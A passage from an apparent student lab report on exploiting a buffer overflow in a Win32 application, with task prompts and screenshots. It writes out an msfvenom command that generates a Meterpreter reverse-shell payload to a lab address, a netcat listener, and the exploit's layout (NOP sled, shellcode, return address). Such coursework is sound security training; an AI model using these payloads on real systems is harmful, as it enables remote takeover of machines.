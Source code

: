 
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.1.1.67 LPORT=4444 -a x86 -b '\x00\x0A\x0D'
```

:::info
21. In another terminal window, run the back connect (reverse shell): **nc -nvlp 4444** .
:::

We can start `reverse shell` with `nc -nvlp 4444`

<center>

![](https://i.imgur.com/fqLj31i.png)
listening with nc
    
</center>


:::info
22. Create the final script to exploit the buffer overflow vulnerability. The exploit variable have to consist: **\x90 * pad size + shell code + the memory location + "some fuzzing input" * "EIP offset value"** . Make your script executable and run it.
:::

Final script is looking like that



:::info
23. Make sure that you get the shell root on the terminal for backdoor connection.
:::

I was able to get message of connection recieved but, get root access to the shell not.

<center>
    
![](https://i.imgur.com/l7rtBmo.png)
listening with metasploit
    
![](https://i.imgur.com/xY4lGyf.png)

</center>

If you not turn off windows defender then you will get this message
![](https://i.imgur.com/SSuUR8y.png)


:::info
**Bonus: implement another way to do buffer overflow attack on Win32 App & PE binary.**
:::

---

## Task 5 - Catch the password x64

:::info
1. You are given a binary compiled for 64-bit architecture. Try to exploit buffer overflow vulnerability and find out the right password.
:::
